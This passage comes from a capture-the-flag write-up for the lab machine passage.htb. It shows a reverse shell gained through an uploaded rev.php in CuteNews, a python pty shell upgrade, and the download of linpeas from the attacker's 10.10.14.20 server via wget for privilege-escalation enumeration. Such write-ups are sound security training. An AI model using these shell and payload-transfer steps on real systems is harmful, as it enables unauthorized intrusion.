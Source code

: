 

Visiting the following URL gave me a reverse shell on my netcat listener.

```sh
http://passage.htb/CuteNews/uploads/rev.php
```


![](7.png)



# Shell as www-data

I first check for python and spawned a TTY shell.


```sh
$ which python
/usr/bin/python
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@passage:/$ 

```


I did some manul enumeration with nothing obvious standing out. I checked for SUID, sudo, access to home directories, and the /opt and /tmp folders. At this point I transferred linpeas to enumerate further.


```sh
kali@kali-[~/tools/priv_esc/PEASS-ng/linPEAS]$python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.206 - - [03/Jan/2022 16:04:25] "GET /linpeas.sh HTTP/1.1" 200 -
```


```sh
www-data@passage:/tmp$ wget http://10.10.14.20/linpeas.sh -O lin.sh
wget http://10.10.14.20/linpeas.sh -O lin.sh
--2022-01-03 13:04:25--  http://10.10.14.20/linpeas.sh
Connecting to 10.10.14.20:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 451118 (441K) [text/x-sh]
Saving to: 'lin.sh'

lin.sh              100%[===================>] 440.54K  1.50MB/s    in 0.3s    

2022-01-03 13:04:26 (1.50 MB/s) - 'lin.sh' saved [451118/451118]
```
